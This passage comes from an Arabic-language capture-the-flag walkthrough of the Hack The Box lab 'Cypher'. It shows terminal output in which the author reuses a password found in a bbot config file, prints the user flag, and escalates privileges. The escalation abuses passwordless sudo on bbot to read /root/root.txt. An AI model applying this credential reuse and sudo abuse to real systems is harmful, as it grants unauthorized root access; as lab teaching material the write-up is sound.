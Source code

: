 ```terminal
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
neo4j@cypher:/home/graphasm$ su graphasm
Password: 
graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
graphasm@cypher:~$ cat user.txt 
877410eb42c621eb6c4fbf3197244182
graphasm@cypher:~$
```

## Privilege Escalation

اول حاجة ببدأ بيها بعد ما اوصل لل `user flag (user.txt` اني اشوف ايه الي اقدر اعمله بصلاحية الroot عن طريق الأمر `sudo -l`:

```terminal
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
graphasm@cypher:~$
```

{: .prompt-info }

> **BBOT (Basic Bug-hunting & OSINT Tool)** أداة مفتوحة المصدر لفحص الثغرات وجمع المعلومات (OSINT).
> بتساعد في أتمتة عمليات زي جمع النطاقات الفرعية (subdomains)، فحص المنافذ (Ports)، والزحف على الويب (Web Crawling)، وبتستخدم مصادر بيانات متعددة.
> 🔗 [GitHub: blacklanternsecurity/bbot](https://github.com/blacklanternsecurity/bbot)

لازم نلاقي طريقة نقرا بيها الـ `root.txt` flag من خلال `bbot`، فلاقينا طريقة نقدر نحقق بيها ده وده الأمر النهائي: `graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run`.

### **شرح الأمر**

```terminal
sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run
```

{: .prompt-info }
> **شرح الأمر:**
- **`sudo`** → بيشغل BBOT بصلاحيات **root**.  
- **`/usr/local/bin/bbot`** → المسار الكامل لأداة **BBOT**.  
- **`-cy /root/root.txt`**  
  - `-c` → بيحدد ملف إعدادات مخصص (Configuration file).  
  - `-y` →  بينفذ الأمر علي طول من غير تأكيد مني.  
  - `/root/root.txt` → ملف فيه الـ flag اللي عايزين نقراه.
- **`-d`** → بيشغل وضع **debug** عشان نشوف التفاصيل.  
- **`--dry-run`** → بيشغل محاكاة من غير تغييرات فعلية، مفيد للاختبار كأنه بيورينا هو هيعمل ايه من غير ما ينفذه.

